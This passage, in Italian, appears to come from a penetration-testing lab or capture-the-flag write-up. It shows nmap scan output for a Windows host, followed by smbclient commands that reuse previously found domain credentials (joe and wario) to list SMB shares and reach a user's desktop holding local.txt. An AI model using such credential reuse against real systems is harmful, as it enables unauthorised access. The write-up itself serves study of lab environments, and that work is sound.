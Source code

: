 ```bash
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11
Aggressive OS guesses: IBM z/OS 1.11 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-18T11:50:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 2s
|_nbstat: NetBIOS name: CLIENT02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:0a:1a (VMware)
```

Con le credenziali trovate precedentemente lancio il seguente comando:

```bash
smbclient -N -L //172.16.184.83/ -U medtech.com/joe%Flowers1 
```

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C               Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Windows         Disk       
```

Faccio lo stesso per l'utente wario:

```bash
smbclient \\\\172.16.184.83\\C -U medtech.com/wario%Mushroom\!
```

E trovo sul suo desktop la flag local.txt:

```bash
smb: \USers\wario\desktop\> dir
  .                                  DR        0  Sat May 18 09:21:55 2024
  ..                                  D        0  Wed Oct  5 08:12:49 2022
  local.txt                           A       34  Sat May 18 09:21:55 2024
```

Accedo alla macchina:
